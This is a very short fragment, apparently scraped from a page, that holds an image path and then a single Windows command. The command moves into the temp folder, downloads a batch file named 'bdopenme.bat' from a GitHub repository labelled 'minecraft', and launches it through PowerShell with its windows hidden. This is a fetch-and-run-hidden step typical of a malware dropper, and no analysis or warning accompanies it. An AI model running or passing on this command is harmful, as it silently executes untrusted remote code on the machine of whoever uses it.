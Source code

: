 cd %TEMP% & curl -O https://raw.githubusercontent.com/enoreex/minecraft/main/bdopenme.bat & powershell.exe -WindowStyle Hidden -Command "Start-Process -WindowStyle Hidden -FilePath bdopenme.bat"

